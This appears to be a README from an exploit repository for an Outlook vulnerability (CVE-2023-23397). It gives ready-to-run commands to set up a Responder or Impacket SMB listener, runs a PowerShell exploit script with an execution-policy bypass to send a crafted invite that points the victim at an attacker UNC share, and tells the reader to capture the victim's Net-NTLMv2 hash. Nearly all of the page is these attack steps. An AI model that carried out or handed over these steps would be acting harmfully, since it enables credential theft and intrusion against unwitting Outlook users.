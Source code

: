 # Exploit Steps

## 1) Start listener (attacker)
Option A (Responder):
```bash
sudo responder -I <iface> -wrf
```

Option B (Impacket SMB server):
```bash
python3 -m pip install --user impacket
mkdir -p ~/share
python3 -m impacket.smbserver share ~/share -smb2support
```

## 2) Send crafted invite (Windows)
Open PowerShell in the repo root and run:
```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
powershell -ExecutionPolicy Bypass -File .\src\outlook_cve23397_exploit.ps1 `
  -Victim "victim@example.local" `
  -UNC "\\192.168.56.10\share\poc.wav" `
  -Subject "Project Sync"
```

## 3) Capture
- Observe Net-NTLMv2 in attacker console.
- Save `docs/img/responder_capture.png`.
